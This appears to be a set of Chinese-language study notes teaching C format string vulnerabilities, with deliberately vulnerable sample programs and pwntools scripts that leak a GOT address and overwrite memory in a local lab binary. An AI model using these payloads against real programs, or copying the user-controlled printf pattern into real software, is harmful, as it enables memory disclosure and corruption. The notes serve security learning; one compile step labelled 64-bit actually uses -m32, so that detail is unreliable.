

## 1、背景知识

### 1.1 Format String介绍

**格式化字符串**：在C语言中，常用输出函数：printf、fprintf、vprintf、vfprintf、sprint等，对于这些输出函数，Format String是第一个参数，我们称之为格式化字符串。

例："my name is %s, %d years old\n"为格式化字符串，其中`%s`，`%d`为符号说明，后续参数会按照顺序和这些符号说明一一对应，按照符号说明符来解释后续参数。与`%s`对应的参数会被解析为字符串，并替换到`%s`的位置。

```c
printf("my name is %s, %d years old\n", "pwn", 12);
```

在格式化字符串漏洞中有用的格式化说明符：

| 符号 | 描述                                                         |
| :--: | ------------------------------------------------------------ |
|  %p  | 输出指针的值，可以将对应参数解析为地址输出                   |
| %K$p | 更改参数对应的顺序，与格式化字符串后第K个参数进行对应，并以地址形式解析参数值 |
| %K$n | 将与格式化字符串后的第K个参数进行对应，将参数解析为一个地址，并取消此次输出，而将已经输出的字节长度写入获取的地址 |
|  %n  | 到目前为止所写的字符数                                       |
|  %x  | 按照十六进制输出                                             |

*<u>需要进一步理解%n的用法</u>*

### 1.2 函数调用约定

代码示例`printf2.c`

```c
#include<stdio.h>

int main()
{
    printf("Test : 1.%p\t 2.%p\t 3.%p\t 4.%p\t 5.%p\t 6.%p\t\n",
           0x11111111, 0x22222222,
           0x33333333, 0x44444444,
           0x55555555, 0x66666666);
    return 0;
}
```

#### 1.2.1 x86-32位平台上，printf的传参方式，及调用约定

printf函数的参数按照顺序依次存放在栈上，（x86寄存器比较少，使用栈传递参数），参数会按照从右到左的顺序依次被压入栈中。

编译32位：`gcc -m32 -o printf2 printf2.c`


可以看到，printf的参数按照从右到左的顺序依次被压入到栈中

#### 1.2.2 x86-64位平台上，printf的传参方式，及调用约定

与32位平台不同，64位平台寄存器比较充足，前6个参数会存储在寄存器中，其他后续的参数（如果有的话）会被压入到栈中，参数的处理顺序和32位一致，都是按照从右到左的顺序。

编译64位：`gcc -o printf2-64 printf2.c`


## 2、格式化字符串漏洞

通过上面的描述，已经知道printf会从寄存器或者栈中取参数与格式化字符串的说明符进行一一匹配，然后输出。如果格式化说明符和参数个数不匹配时（参数少，格式化说明符多时），就会造成泄漏。如果用户能够控制格式化字符串，那么能够造成更加严重的后果（更多的泄漏、覆盖返回地址、泄漏canary等）。

### 2.1 漏洞存在的条件

* 格式化字符串中的说明符比参数个数多时，造成泄漏；

* 格式化字符串用户可控；

### 2.2 漏洞危害

内存泄漏、任意地址泄漏、内存覆盖

## 3、格式化字符串漏洞利用

### 3.1 内存泄漏

当格式化字符串的符号说明符比后面参数个数多时，造成内存泄漏

代码示例：`printf-vuln1.c`

```c
#include <stdio.h>

int main ()
{
    int token = 0xabcdabcd;
    // printf 格式化字符串中有7个%p，但是格式化字符串后没有对应的参数
    printf("%p\n%p\n%p\n%p\n%p\n%p\n%p\n");
    return 0;
}
```

编译：`gcc -no-pie -fno-stack-protector -m32 -o  printf-vuln1 printf-vuln1.c`

执行` ./printf-vuln1`


发生泄漏，可以看到已经将token的值0xabcdabcd泄漏


### 3.2 任意地址泄漏

格式化字符串中的符号说明多余参数个数时，会造成泄漏，如果格式化字符串由用户控制，就可以造成任意地址的泄漏。用户可以通过输入更多的符号说明来控制泄漏的多少。

代码示例：`printf-vuln2.c`

```c
#include <stdio.h>

int main()
{
    char *h = "Hello, what's your name?\n";
    printf(h);
    char name[100] = {0};
    scanf("%s", name);
    printf(name);
    printf("\n");			// 为了让printf能及时的输出
    return 0;
}
```

编译：`gcc -no-pie -fno-stack-protector -m32 -o printf-vuln2 printf-vuln2.c`

构造payload: `%p\n%p\n%p\n%p\n%p\n%p\n%p\n%p\n`

执行`./printf-vuln2`，输入上面paylod


可以看到造成了一个泄漏。

gdb调试


查看此时栈的内容


可以使用x查看这些栈的内容，从这里可以看出8个%p对应的值为



实际输出，看下真实结果，和上面判断一致。


换一个payload：`printf-vuln2-exp.py`

```python
from pwn import *

# context.terminal = ['tmux', 'splitw','-h']
p = process("./printf-vuln2")

code = ELF("./printf-vuln2")

pwnlib.gdb.attach(proc.pidof(p)[0])

context(arch=code.arch, os="linux", log_level="debug")

p.recv()

p.sendline("%7$s"+p32(code.got['__isoc99_scanf']))
scanf = u32(p.recv(4))
print(hex(scanf))

# p.interactive()
```

执行`python printf-vuln2-exp.py`


利用printf格式化字符串漏洞成功泄漏了`__isoc99_scanf`的地址`0x804a018`

gdb调试，调试前，修改一下payload脚本

```python
from pwn import *

# context.terminal = ['tmux', 'splitw','-h']
p = process("./printf-vuln2")
code = ELF("./printf-vuln2")
# 在发送payload的之前，使用gdb attach 到 printf-vuln2
pwnlib.gdb.attach(proc.pidof(p)[0])
context(arch=code.arch, os="linux", log_level="debug")

p.recv()

p.sendline("%7$s"+p32(code.got['__isoc99_scanf']))
p.interactive()
# scanf = u32(p.recv(4))
# print(hex(scanf))

```


可以看到上述payload使用`%7$s`打印格式化字符串后第七个参数，也就是printf的第8个参数，正好是`__isoc_99_scanf`的地址。这里之所以能泄漏got表地址是因为在payload中将got表地址当参数存入到了栈中。可见只要我们**将任意地址跟在%K$s后面，就可以对该地址用%s进行解析，达到任意地址读的效果。如果%s不能解析对应的地址，就会导致程序崩溃，造成拒绝服务攻击。**

### 3.3 内存覆盖

上面我们通过`%K$s`+`任意地址`进行任意地址读。同理我们可以借助`%K$n`+`任意地址`进行任意地址写的效果。

漏洞代码同上，编译成64位：`gcc -no-pie -fno-stack-protector -m32 -o printf-vuln3 printf-vuln2.c`

Payload: `printf-vuln2-exp2.py`

```python
from pwn import *

p = process("./printf-vuln3")
code = ELF("./printf-vuln3")

context(arch=code.arch, os="linux", log_level="debug")

p.recv()

p.sendline('a'*9 + '%10$hhn' + p64(code.got['__isoc99_scanf']))
```


***当前调试技能还不太熟练，后续还要对这部分内容进行完善***

## 参考：

> https://bbs.pediy.com/thread-250858.htm

